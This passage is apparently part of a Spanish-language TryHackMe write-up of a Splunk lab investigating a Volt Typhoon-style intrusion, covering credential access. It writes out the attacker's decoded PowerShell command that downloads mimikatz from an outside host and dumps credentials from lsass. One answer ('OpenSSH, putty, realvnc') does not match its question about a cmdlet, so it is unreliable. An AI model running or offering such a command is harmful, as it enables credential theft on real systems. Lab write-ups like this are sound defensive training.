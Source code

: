 
## 🔐 5. Credential Access

### Para intentar ocultar sus huellas, los atacantes eliminan la evidencia de la vulneración. Primero borran los registros RDP. ¿Qué cmdlet de PowerShell utiliza el atacante para eliminar el registro "Usado más recientemente"?
### ✅ `OpenSSH, putty, realvnc`
![](https://github.com/JoshKxng/SOC-Analyst-TryHackMe/blob/main/imagenes/Splunk%20-%20Volt%20Typhoon/06A.png)
![](https://github.com/JoshKxng/SOC-Analyst-TryHackMe/blob/main/imagenes/Splunk%20-%20Volt%20Typhoon/06A1.png)


### 🔢 ¿Cuál es el comando completamente decodificado que utiliza el atacante para descargar y ejecutar mimikatz?
### ✅ `Invoke-WebRequest -Uri "http://voltyp.com/3/tlz/mimikatz.exe" -OutFile "C:\Temp\db2\mimikatz.exe"; Start-Process -FilePath "C:\Temp\db2\mimikatz.exe" -ArgumentList @("sekurlsa::minidump lsass.dmp", "exit") -NoNewWindow -Wait`
![](https://github.com/JoshKxng/SOC-Analyst-TryHackMe/blob/main/imagenes/Splunk%20-%20Volt%20Typhoon/06B.png)